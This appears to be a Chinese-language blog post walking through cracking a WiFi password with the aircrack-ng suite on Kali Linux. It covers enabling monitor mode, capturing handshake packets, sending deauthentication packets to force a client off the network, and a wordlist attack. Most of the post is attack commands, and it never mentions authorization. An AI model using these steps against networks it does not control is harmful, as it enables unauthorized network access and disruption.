 ```yaml
---
layout: post
title: Aircrack破解wifi密码
---
```

<img src="/images/fulls/03.jpg" class="fit image"> 
  
## 实验过程

### 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包

### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作，如果没有开启  输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启。
### 开启监听
```
root@kali:~$ airmon-ng start wlan0
```
<img src="/images/0.9.jpg" class="fit image">
### 扫描目标wifi
 ```
 root@kali:~$ airodump-ng wlan0mon
 ```
### 开始抓握手包
 ```
 root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 
 ```

 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6 
 
### 强制客户端重连
 ```
aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 ```
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
 
### 使用密码本破解
 ```
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
 ```
 *-w是指定我的密码本

